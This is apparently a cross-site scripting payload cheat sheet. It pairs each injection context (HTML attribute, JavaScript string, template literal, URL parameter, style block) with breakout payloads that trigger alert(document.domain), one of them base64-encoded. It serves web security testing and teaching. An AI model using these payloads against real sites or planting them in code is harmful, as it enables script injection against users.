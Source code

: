 ### Context: HTML Attribute
**Vulnerable pattern:** `<input value="USER-INPUT">`  
**Payloads:**
```javascript
" autofocus onfocus="alert(document.domain)
" onmouseover="alert(document.domain)
"><script>alert(document.domain)</script>
```

### Context: JavaScript String
**Vulnerable pattern:** `<script>var name = "USER-INPUT";</script>`  
**Payloads:**
```javascript
";alert(document.domain);//
\";alert(document.domain);//
</script><script>alert(document.domain)</script>
```

### Context: JavaScript Template Literal
**Vulnerable pattern:** `<script>var name = `USER-INPUT`;</script>`  
**Payloads:**
```javascript
${alert(document.domain)}
`;alert(document.domain);//
```

### Context: URL Parameter
**Vulnerable pattern:** `<a href="/page?param=USER-INPUT">`  
**Payloads:**
```javascript
javascript:alert(document.domain)
data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+
```

### Context: Style
**Vulnerable pattern:** `<style>selector { property: USER-INPUT; }</style>`  
**Payloads:**
```javascript
</style><script>alert(document.domain)</script>
</style><img src=x onerror=alert(document.domain)>
```
